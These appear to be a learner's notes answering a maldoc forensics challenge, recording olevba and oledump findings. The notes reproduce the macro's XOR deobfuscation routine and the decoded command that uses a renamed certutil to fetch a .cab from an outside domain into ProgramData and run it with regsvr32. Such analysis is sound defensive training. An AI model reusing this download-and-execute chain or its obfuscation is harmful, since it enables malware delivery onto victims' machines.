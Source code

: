 Disconcerted at the ease of the last document. Shoulders and wings ache in the same sort of way that bouldering makes you realise you are not a lego person; also aced this with distractions and issues.

Provide the executable name being downloaded.; Answer:
```
olevba
1.exe 
```
QB-Forensics-Notes:
```
```
What program is used to run the executable?; Answer:
```
# Guessed, but `set u=tutil` creates the %u% variable in batch
certutil
```
QB-Forensics-Notes:
```
```
Provide the malicious URI included in the maldoc that was used to download the binary (without http/https).; Answer:
```vb
' olevba
Public Module Program
	Public Sub Main(args() As string)
	      Dim ju As String
	      Dim eR() As String
	      Dim lc As Double
	      Dim hh As String
	      Dim h As String
		    ju = "12%2%11%79%64%12%79%77%28%10%27%79%26%82%26%29%3%73%73%12%14%3%3%79%44%85%51%63%29%0%8%29%14%2%43%14%27%14%51%94%65%10%23%10%79%64%74%26%74%49%12%49%14%49%12%49%7%49%10%49%79%64%9%49%79%7%27%27%31%85%64%64%87%12%9%14%22%25%65%12%0%2%64%13%0%3%13%64%5%14%10%1%27%65%31%7%31%80%3%82%3%6%26%27%89%65%12%14%13%79%44%85%51%63%29%0%8%29%14%2%43%14%27%14%51%94%65%27%2%31%79%73%73%79%12%14%3%3%79%29%10%8%28%25%29%92%93%79%44%85%51%63%29%0%8%29%14%2%43%14%27%14%51%94%65%27%2%31%77"
        eR = Split(ju, "%")
        For lc = 0 To UBound(eR)
        hh = hh & Chr(eR(lc) Xor 111)
        Next lc
        h = hh
        Console.WriteLine(h)
	End Sub
End Module

cmd /c "set u=url&&call C:\ProgramData\1.exe /%u%^c^a^c^h^e^ /f^ http://8cfayv.com/bolb/jaent.php?l=liut6.cab C:\ProgramData\1.tmp && call regsvr32 C:\ProgramData\1.tmp"

' 8cfayv.com/bolb/jaent.php?l=liut6.cab
```
QB-Forensics-Notes:
```
```
What folder does the binary gets dropped in?; Answer:
```
# olevba
ProgramData
```
Which stream executes the binary that was downloaded?; Answer:
```
# oledump.py
A3
```
QB-Forensics-Notes:
```
```
